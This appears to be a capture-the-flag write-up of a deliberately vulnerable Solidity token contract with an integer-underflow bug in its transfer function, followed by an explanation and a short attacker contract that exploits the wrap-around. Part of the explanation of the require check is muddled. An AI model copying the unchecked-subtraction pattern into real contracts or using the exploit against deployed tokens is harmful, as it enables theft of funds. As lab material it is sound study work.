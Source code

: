 <div align="center">

# Token

</div>



**Token (Vulnerable Code) :**


<details>
<summary>Code</summary>

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}

```

</details>

---------

**Approach and Exploit Method Including Code :** 

1. **Understand the contract**
   - The token stores balances in `mapping(address => uint256) balances;`.
   - `transfer(address _to, uint256 _value)` does:
     ```solidity
     require(balances[msg.sender] - _value >= 0);
     balances[msg.sender] -= _value;
     balances[_to] += _value;
     ```
   - In **Solidity 0.6**, unsigned integer under/overflow **does not automatically revert**. Subtracting a larger value from a smaller one will **wrap** (wrap-around) to a very large `uint256` value.
   - The `require(...)` check is useless here because the expression uses unsigned integers — the subtraction underflows before the comparison in a way that makes the require not prevent the wrap (and on some compilers the logic allows it through).

2. **Exploit Method**
   - We want to trigger an underflow on `balances[msg.sender] -= _value` so that `balances[msg.sender]` becomes a very large number.
   - To do that, call `transfer(_to, value)` from a contract that has `balances[contract] == 0` and pass `_to` as your EOA.
   - The subtraction `0 - 21` underflows to `2**256 - 21` (a huge number), so the contract's balance becomes massive and the `_to` address receives `value` (e.g., 21). The attacker now has many tokens (or can repeat to increase balances).


  
## Exploit Code

```Solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;


contract MintUnlimitedToken{

    Token public token;

    constructor (address _target){
        token = Token(_target);
    }

    function MintToken()public {
        token.transfer(msg.sender, 21 );
    }
    function getBalance() public view returns (uint256) {
        return token.balanceOf(address(this));
    }
}


```



---



